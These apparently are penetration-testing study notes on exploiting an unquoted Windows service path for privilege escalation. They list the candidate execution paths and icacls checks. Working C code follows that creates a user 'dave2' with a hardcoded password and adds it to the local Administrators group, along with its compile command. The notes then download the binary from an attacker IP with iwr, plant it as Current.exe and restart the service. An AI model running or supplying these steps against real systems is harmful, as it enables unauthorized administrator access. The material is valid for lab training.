 ```PowerShell
Stop-Service GammaService
```
#### Path for execution is as identified:
```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
#### Reviewing permissions on the paths `C:\` and `C:\Program Files\`
```PowerShell
icacls "C:\"
```

```PowerShell
icacls "C:\Program Files"
```

```PowerShell
icacls "C:\Program Files\Enterprise Apps"
```
Looking for a `(W)` or `(F)` in the `BUILTIN\Users:`

***We want to replace `Current.exe` with our own binary***
#### Create a C code binary in Kali that will create a user named _dave2_ and add that user to the local Administrators group using the `system` function
```C
#include <stdlib.h>

int main ()
{
	int i;

	i = system ("net user dave2 password123! /add");
	i = system ("net localgroup administrators dave2 /add");

	return 0;
}
```
#### Compile the binary (adduser.c)
```Shell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
#### Upload to the target host
```PowerShell
iwr -uri http://192.168.45.155:80/adduser.exe -Outfile Current.exe
```
#### Move to `Enterprise Apps` folder as `Current.exe`
```PowerShell
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```
#### Start the service
```PowerShell
Start-Service GammaService
```
***Will flash an error, but the user will be added***
#### Check users
```PowerShell
net users
```
#### Check administrators group
```PowerShell
net localgroup administrators
```